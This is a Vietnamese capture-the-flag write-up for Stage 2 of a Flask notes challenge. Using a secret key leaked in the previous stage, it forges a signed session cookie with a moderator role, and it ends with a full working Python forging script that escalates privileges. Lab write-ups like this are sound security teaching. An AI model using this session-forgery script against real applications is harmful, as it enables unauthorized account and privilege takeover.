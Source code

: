 ![image](https://github.com/user-attachments/assets/f1ade6e6-4721-44e0-85c0-3fdd8bc403fa)

# **ANALYZE**

Đến với Stage 2 , mang theo  `FLASK_APP_SECRET_KEY` mà ta nhận được từ STAGE_1

Ta sẽ đi đọc trong source code để tìm manh mối về `STAGE_2` và `FLASK_APP_SECRET_KEY`

Thông tin đầu tiên mà ta có được là : Flag được nằm trong 1 bài note chỉ có admin hoặc mod mới có thể xem được .

```
await page.type('textarea[name="content"]', `Here you got some juicy flag: ${FLAG_STAGE_2}`);
```

```
@app.route('/dashboard')
@login_required
def dashboard():
    if is_mod():
        return redirect(url_for('moderator'))

    user_notes = [(nid, notes[nid]['title'], notes[nid]['content']) for nid in notes if notes[nid]['owner'] == g.user]
```

Trong main.py, đoạn mã sau cho thấy Flask lưu session thông qua session['user']:
```
session['user'] = {
    'username': username,
    'role': 'admin' if hashlib.sha512(password.encode()).hexdigest() == ADMIN_PASSWORD_HASH else 'user'
}
```

→ Tức là sau khi đăng nhập, Flask sẽ lưu nội dung session dưới dạng:

```
{
  "user": {
    "username": "tên bạn nhập",
    "role": "user" hoặc "admin"
  }
}
```
Flask sẽ tự động serialize, sign và mã hóa thông tin này thành cookie tên là session.

Flask dùng thư viện itsdangerous kết hợp với secret key:

```
app.secret_key = os.environ.get("FLASK_APP_SECRET_KEY")
```

→ Mỗi session cookie sẽ được Flask ký bằng FLASK_APP_SECRET_KEY.


Và ta đã có đã có FLASK_APP_SECRET_KEY từ .env (Stage 1), ta hoàn toàn có thể tạo cookie có role "moderator" hoặc "admin".


Thông qua hành vi xử lý quyền:

```
def is_mod():
    return g.user.get('role') in ['admin', 'moderator']
```
  
→ Chỉ cần trong session có user.role = "moderator" là đủ để:

Vượt qua @moderator_required

Truy cập /report/<note_id>, /moderator


# **EXPLOIT**

Cuối cùng thì script để làm giả cookie sẽ là : 

```
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

# B1: Setup Flask giả để dùng serializer giống thật
app = Flask(__name__)
app.secret_key = "9f310d75c84c1aba65fa87fec8980f7c43b55dd274b41e3512777981ca37ea1d606e626c24248a0d39957c2bb94c9493f410"

# B2: Lấy công cụ ký
class SimpleSecureCookie(SecureCookieSessionInterface):
    def get_signing_serializer(self, app):
        return super().get_signing_serializer(app)

serializer = SimpleSecureCookie().get_signing_serializer(app)

# B3: Tạo nội dung session giả
cookie = serializer.dumps({
    "user": {
        "username": "canheeu",
        "role": "moderator"
    }
})

print("Final signed cookie:", cookie)
```

Sau khi đổi cookie thì ta đã hoàn toàn leo thang lên được quyền mod 

![image](https://github.com/user-attachments/assets/6b6624e3-c57e-4cb2-a2f8-3b9c911d4ba8)








